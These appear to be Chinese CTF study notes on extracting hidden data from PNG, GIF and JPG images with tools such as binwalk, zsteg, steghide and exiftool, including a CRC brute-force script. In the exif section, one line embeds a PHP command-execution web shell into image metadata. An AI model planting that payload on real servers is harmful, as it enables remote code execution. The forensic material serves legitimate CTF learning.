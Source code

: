 png
jpg
gif
bitmap(.bmp)，一般是010的bmp模板改位图高度
图片隐写工具那些事：<https://cloud.tencent.com/developer/article/2069964>
^
扔010，十六进制搜66 00 6或搜{，f，找flag.
^
根据文件头，改后缀看图片中flag
^
是图片，但看文件头不能知道类型
拖入010，工具，16进制运算，二进制取反，还原图片。
拖入010，工具，16进制运算，二进制异或 操作数，还原图片。
![image-20240525095730765](http://cdn.33129999.xyz/mk_img/image-20240525095730765.png)
![](.topwrite/assets/image_1732114013430.png)
^
## **GIF**
分析图片每一帧，每一帧都要看，有可能特别的下载，看到二维码扫码获取flag
gif扔到ps中，右下角有逐帧，点眼睛查看。
或在线工具<https://uutool.cn/gif2img/>
^
## **文件融合：png图片融合zip隐写**
用010打开一张图片png,发现里面还有zip的文件头(504B0304,ascii字符常见有PK)，去掉png的16进制数据，将.png改为.zip。即可得到zip。

另外，两个文件融合的中间处，也可能隐藏信息。
^
**kali里的binwalk命令工具**
文件分析是否有融合，和分离。
Binwalk是Linux下用来分析和分离文件的工具，可以快速分辨文件是否由多个文件合并而成，并将文件进行分离。如果分离成功会在目标文件的目录。有压缩包自动解压同目录下生成一个形如_文件_extracted的文件目录，目录中有分离后的文件。
分析：
binwalk 'zip.jpg'
分离：


sudo binwalk --run-as=root -e zip.png


sudo binwalk --run-as=root -e -j 0x74DFE /root/桌面/zip.jpg
sudo binwalk --run-as=root -e -C /output/directory /root/桌面/zip.jpg

**foremost文件分离**
如果binwalk无法正确分离文件，可以使用foremost，将目标文件复制到kali中，成功执行后，会在目标文件的文件目录下生成我们设置的目录，目录中会按文件类型分离出文件。有压缩包不会自动解压
用法：foremost 文件名 -o 输出目录名

>有时候binwalk识别有内容、binwalk、foremost都提取不出来，用010手动提取。 
>binwalk、foremost提取的文件压缩包有损害，用zsteg工具提取。


^
## **PNG图片宽高改小隐写**
010打开左下角报CRC错误
使用循环冗余校验（CRC）来检测图像是否被篡改，并找回原来值。
python代码找回原来值宽高，使用010editor修改回来(高度可以直接修改很大，宽度不能)。
```
import struct
import binascii

crcbp = open("flag.png", "rb").read()  
for i in range(2000):     
    for j in range(2000):
        data = crcbp[12:16] + struct.pack('>i', i)+struct.pack('>i', j)+crcbp[24:29]
        crc32 = binascii.crc32(data) & 0xffffffff
        if(crc32 == 0x889C2F07):   # 自行更改crc值
            print(i, j)
            print('hex:', hex(i), hex(j))
```
![](.topwrite/assets/image_1709435904221.png)
或直接使用工具解：PNG图片宽高一把梭.exe

^
## **PNG LSB隐写**
>LSB全称为 least significant bit,是最低有效位的意思。Lsb图片隐写是基于lsb算法的一种图片隐写术,以下统称为lsb隐写,这是一种常见的信息隐藏方法。当然关于图像的隐写的方法有很多,统称为隐写术, lsb隐写很实用,算法简单,能存储的信息量也大,是CTF比赛中的常客。

使用StegSolve LSB隐写工具
<https://blog.csdn.net/weixin_43639682/article/details/113857310>
```
点击左右按钮，看看在什么颜色为0的时候有隐藏的画面。
再点击DataExtract，设置对应颜色为0，选择LSB，预览是什么文件头，再对应保存为txt或png。

DataExtract一般选择R=0 G=0 B=0，再选择BitOrder为MSB还是LSB，
点击预览就能看到文件头信息，文件可能为zip,png,txt等。
```
```
点击左右按钮，看看在什么颜色的值有信息。
再点击DataExtract，勾选对应颜色，如红色R 76543210全✓上，预览获取到flag。
```

^
## **zsteg提取PNG的LSB隐写**
一个比StegSolve更方便的工具—zsteg
工具 zsteg 用来检测 PNG 和 BMP 中隐藏数据的工具可以快速提取隐藏信息。
```
把图片与工具放在一起，输入命令
zsteg cyberpunk.png  //得到flag。
zsteg -a flag11.png   //所有数据。
zsteg --lsb 1.png

导出数据：
zsteg -E "extradata:0" 30.png > 30.zip


提取该通道图片
zsteg -e b8,a,lsb,xy  文件.png -> out.png
```
支持如下：
```
1. LSB steganography in PNG&BMP 
2. zlib-compressed data
3. OpenStego
4. Camouflage 1.2.1
5. LSB with The Eratosthenes set
6. MSB
```
安装使用，借助kali里的gem安装
>Gem 是 Ruby 语言的包管理器
<https://blog.csdn.net/Amherstieae/article/details/107512398>




^
## **加密LSB隐写**
kali安装使用
<https://blog.csdn.net/Swaynie/article/details/128344103>
```
root@kali:~/cloacked-pixel# python2 lsb.py extract nvshen.png res.txt 123456

root@kali:~/cloacked-pixel# cat res.txt
flag{jsy09-wytg5-wius8}
```

^
## **普通盲水印隐写**
一般PNG，使用工具解，加密的图看不出差异，可以解密图片中的盲水印。
```
BlindWatermark-v0.0.3-windows-x86_64.jar
解码:
java -jar BlindWatermark.jar decode -c 1.jpg 1_1.jpg
```
^
## **二维码隐写**
<https://merricx.github.io/qrazybox/>
使用擦除二维表左边黑块，在点击tools查看二维码额外信息，如二维码扫码后的文字内容，隐藏内容。


^
# =====JPG==============

## **JPG分析 Stegdetect**
Stegdetect主要用于分析JPEG文件，可以检测到通过JSteg、JPHide、OutGuess、Invisible Secrets、F5、appendX和Camouflage等
<https://blog.csdn.net/qq_53079406/article/details/124596878>
```
stegdetect.exe -tjopi -s 10.0 [file]
```
stegdetect的敏感度（通过-s参数指定，设定敏感度为2.0）


^
## **JPG LSB隐写图片**
JPHIDE 藏
JPSEEK 解
下载图片，Windows使用集成jphs（Jphswin.exe）工具，点击Seek（无密码直接点，有密码输入），得到一张新的图片保存为.jpg。
点击Hide，得到保存为.txt文件。
介绍：<https://blog.csdn.net/qq_53079406/article/details/123608345>

## **JPG steghide隐写**
可加密码隐写txt到图片中，也可不加密码。
从图片中提取txt。
kali中安装apt-get install steghide
steghide extract -sf good_已合成.jpg

## **JPG刷新F5隐写**
kali中安装F5-steganography 工具
git clone https://github.com/matthewgao/F5-steganography
解密的时候输入：
java Extract /图片的绝对路径 [-p 密码] [-e 输出文件]
java --add-exports java.base/sun.security.provider=ALL-UNNAMED Extract '/root/桌面/Misc.jpg'
提取出output.txt可能是个zip。

## **JPG outguess隐写**
outguess解密图片，输入密码，可提取出TXT。
outguess -k '密码' -r mmm.jpg flag.txt 

## **图片exif信息隐写**
Windows一般看图片属性即可。
<https://blog.csdn.net/qq_41453285/article/details/101765775>
kali使用
```
exiftool *| grep flag   查看当前目录中文件中含有flag信息的内容
exiftool xx.png   查看xx.png的所有元数据
exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>" 图片中写木马
exiftool -ThumbnailImage -b misc22.jpg > 1.jpg  导出缩略图，如果有Thumbnail Image，缩略图也可以使用MagicEXIF工具查看。

```